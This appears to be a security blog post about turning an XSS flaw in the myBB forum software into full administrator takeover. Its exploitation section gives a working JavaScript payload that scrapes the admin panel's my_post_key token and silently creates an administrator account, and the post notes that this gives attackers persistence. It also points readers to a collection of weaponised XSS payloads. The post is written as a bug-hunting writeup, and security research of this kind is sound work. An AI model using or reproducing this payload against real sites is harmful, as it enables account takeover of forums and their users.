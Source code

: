 ```yaml
---
layout: post
title:	"myBB - Add Administrator via XSS"
date:	2019-05-29 03:00:00
categories:
    - notes
tags:
    - bug_hunting
    - bug_writeup
---
```

<head>
	<title> myBB - Add Administrator via XSS </title>
</head>


# i. Introduction
While browsing Twitter, I happened to come upon [hakluke's](https://twitter.com/hakluke) blog post about upgrading an XSS from a medium to a critical bug. Long story short it detailed on how an XSS is able to bypass most CSRF protection mechanisms, and completely bypassing the Same Origin Policy. The most popular anti-CSRF mechanism are CSRF tokens. However, Javascript is able to request the form, parse the token, and then send it along with the subsequent request to perform a sensitive action. 

If you would like to read more about how this works, I highly recommend reading hakluke's blog post which can be found here: https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4

hakluke included several proof of concepts for popular CMS platforms such as Wordpress and Drupal. I decided I wanted to give it a shot, and try testing it with a forum software that we all know and love... myBB. 

There are several reasons why I chose myBB, however the major one was that developers are able to create their own plugins similar as to Wordpress. By allowing developers to create third party plugins, it opens the door for a plethora of bugs, which XSS seems to be common. 


# ii. Exploitation

I have modified hakluke's original Wordpress script to work with myBB.

Script:
~~~
/*
mybb - adds administrator with username hacker and password hacker12345
tested on latest version of mybb v1.8.20
original script by hakluke modified by mqt
*/
var mybb_root = "" // don't add a trailing slash
var req = new XMLHttpRequest();
var url = mybb_root + "/admin/index.php?module=user-users&action=add";
var regex = /my_post_key" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "my_post_key="+nonce+"&username=hacker&password=hacker12345&confirm_password=hacker12345&email=hacker@hacker.com&usergroup=4&displaygroup=0"; //make sure passwod is 6+ chars
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
~~~ 

In short, in order to perform any sensitive action in the myBB Admin Panel, there is a token that is required which is called `my_post_key`. The following script sends a request to the myBB Admin Panel (which seems to have a lifespan of 30 minutes before asking the user to reauthenticate), retrieves the source and parses it looking for my_post_key. Once it finishes, it sends a subsequent request to add a user to the Administrator group with the username as hacker and password as hacker12345.


Here is a video proof of concept demonstrating it in action:

[![mybb XSS - Add Administrator]({{ site.baseurl }}/images/posts/2017/mybb-add-admin/video-preview.png)](https://vimeo.com/339213610 "myBB XSS - Add Administrator")

You can find this script and more powerful scripts on the `weaponised-XSS-payloads` repo which can be found here: https://github.com/hakluke/weaponised-XSS-payloads

# iii. Conclusion

What really made this concept interesting to me was that whenever people hear XSS, the first thing that pops into mind is cookie stealing. While cookie stealing can be very powerful, there are some downsides. One major downside occurs in stored XSS. In stored XSS, it is hard to gauge whenever the payload will execute. In a lot of cases, by the time the payload executes and you receive the cookie, the session is expired by then. However using a script like this, you can ensure that you have some form of persistence.

Once again, all credit goes to [hakluke](https://twitter.com/hakluke) and their wonderful blog post.

As always, thank you for reading.
\- mqt

Sources:
~~~
https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4
~~~

